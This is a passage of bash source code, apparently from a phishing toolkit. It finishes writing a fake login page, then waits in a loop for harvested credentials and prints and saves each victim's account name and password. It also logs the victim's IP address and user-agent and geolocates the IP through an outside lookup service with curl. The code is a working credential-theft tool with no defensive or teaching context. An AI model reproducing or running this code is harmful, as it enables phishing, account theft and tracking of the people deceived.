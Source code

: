 printf '</center>' >> sites/create/login.html
printf '<body>\n' >> sites/create/login.html
printf '</html>\n' >> sites/create/login.html


}

catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
killall -2 php > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
exit 1

}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server
cat sites/$server/ip.txt >> sites/$server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##
